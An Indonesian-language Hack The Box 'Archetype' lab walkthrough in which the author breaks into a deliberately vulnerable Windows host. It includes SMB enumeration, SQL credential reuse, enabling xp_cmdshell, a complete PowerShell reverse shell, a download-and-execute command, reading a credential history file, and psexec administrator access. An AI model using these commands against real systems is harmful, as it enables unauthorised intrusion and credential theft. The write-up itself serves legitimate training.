Kali ini kita akan mencoba mengerjakan soal CTF dari website Hack The Box.Soal yang kita kerjakan berjudul Archetype. Sebenarnya ini udah lama pernah dikerjain tapi kutulis cuma buat pribadi aja. jadi sekarang kutulis aja di github. Oke langsung kita kerjakan.

1. Pertama-tama mari kita sambungkan vpn kita dengan server dari Hacktebox menggunakan openvpn.



2. Pastikan kita sudah terkoneksi dengan server 



3. Kita akan mencoba starting point Archetype jika di klik walkthrough maka kita akan dipandu dalam pengerjaannya. Saya juga hanya mengikuti walkthrough, saya pemula hehehe dan saya buat ini supaya saya bisa baca dan belajar ulang soalnya saya pikun. Disini sebenarnya saya sudah mengerjakannya.



4. Pertama-tama kita akan diarahkan untuk men-scan menggunakan nmap untuk melihat port yang terbuka. 
Gunakan perintah: `nmap -sC -sV  10.10.10.27`



Bisa kita lihat ada port 135, 139, 445, 1433 yang terbuka. Oh iya saya lupa bilang kalau server yang kita serang memakai sistem operasi windows. Dan kita akan melakukan serangan terlebih dulu ke port 445 dan 1433 yaitu SAMBA server dan SQL server.

5. Kita akan coba lihat SAMBA-nya duluan dengan perintah `smbclient -N -L \\\\10.10.10.27\\`

- N: Memasukkan nilai null pada password

- L: menampilkan list file 



Jika kita perhatikan ada sharefolder dengan nama backups. Mari kita masuk kedalam dan melihat apa aja isinya.

6. Gunakan perintah berikut: `smbclient -N \\\\10.10.10.27\\backups` 



Jika kita lihat isinya ada sebuah file dengan nama prod .dtsConfig . Mari kita download dan lihat isinya.



7. Jika kita perhatikan ada iformasi password dan juga user dari SQL server.
8. Selanjutnya kita akan coba meremote dari SQL server menggunakan tools yag ada di link berikut: https://github.com/SecureAuthCorp/impacket
9. Gunakan perintah berikut untuk mengakses SQL dengan memakai user dan password yg kita dapatkan tadi `python3 mssqlclient.py ARCHETYPE/sql_svc10.10.10.27 -windows-auth`
    


10. Dan kita bisa menggunakan fungsi `IS_SRVROLEMEMBER` untuk mendapatkan posisi sebagai sysadmin.
11. Dengan begitu kita dapat mengaktifkan xp_cmdshell menngunakan perintah dibawah ini satu persatu:
    
`EXEC sp_configure 'Show Advanced Options', 1;`

`reconfigure;`

`sp_configure;`

`EXEC sp_configure 'xp_cmdshell', 1`

`reconfigure;`

`xp_cmdshell "whoami"`



12. Jika kita perhatkan saat kita menggunakan perintah `whoami` ternyata user `archetype\sql_svc` tidak memiliki posisi sebagai administrator dari perangkat. 
13. Mari kita pindah ke window baru dan kita buat sebuah file PowerShell reverse degan nama shell.ps1 . Isinya sebagai berikut:
    
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

14. Mari kita buat sebuah mini webserver menggunakan python. Ketikkan perintah dibawah ini.

`sudo python3 -m http.server 80`

15. Kita buat netcat untuk men-listen pada port 443 dan kita. gunakan ufw untuk membuat call-back pada port 80 dan 443.

`sudo nc -lvnp 443`

`sudo ufw allow from 10.10.10.27 proto tcp to any port 80,443`

16. Lalu pada window saat kita meremote SQL menggunakan perintah dibawah ini

```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://IP anda yang terkoneksi dengan server HTB/shell.ps1\");"
```



17. Setelah itu ketikkan perintah dibawah ini
`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`



18. Bisa kita lihat kita mendapatkan akun seorang administrator dan password-nya. Mari kita remote menggunakan tools yg ada di impacket yang sudah kita download tadi(link ada diatas)

`python3 psexec.py administrator@10.10.10.27`



wahh akun tadi ternyata administrator hahaha maafkan typo di terminalnya ya.

19. Kita bisa cari cari flag di folder Users, Administraror, Desktop dan pada file root.txt . Ketikkan type root.txt unuk mendapatkan flag.

